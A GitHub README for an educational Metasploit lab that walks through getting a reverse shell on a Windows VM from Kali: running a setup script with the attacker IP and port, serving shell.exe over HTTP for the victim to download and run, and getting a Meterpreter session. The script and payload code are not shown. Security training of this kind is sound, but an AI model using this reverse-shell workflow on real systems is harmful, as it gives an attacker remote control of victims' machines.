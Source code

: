 # Metasploit Reverse Shell Lab

A step-by-step reverse shell lab using Metasploit Framework, designed for educational purposes only in a virtual test environment (Kali + Windows 10 VM).

## 📁 Folder Structure

metasploit-reverse-shell-lab/
├── scripts/ # run_lab.sh automation script
├── payloads/ # Generated shell.exe (ignored in Git)
├── screenshots/ # Images of the shell session
├── README.md
└── LICENSE

## ⚙️ How to Use

### 1. On Kali Linux (Attacker):

```bash
cd scripts
./run_lab.sh <KALI_IP> 4444
2. On Windows VM (Victim):
Open browser and go to:

arduino
http://<KALI_IP>:8000/shell.exe
Download and run the file to trigger a Meterpreter session.

✅ Expected Output
On Kali, you'll get:

nginx

meterpreter > sysinfo
⚠️ Disclaimer
This lab is for educational and ethical hacking in a controlled virtual environment only. Do not use this code against unauthorized systems.

---

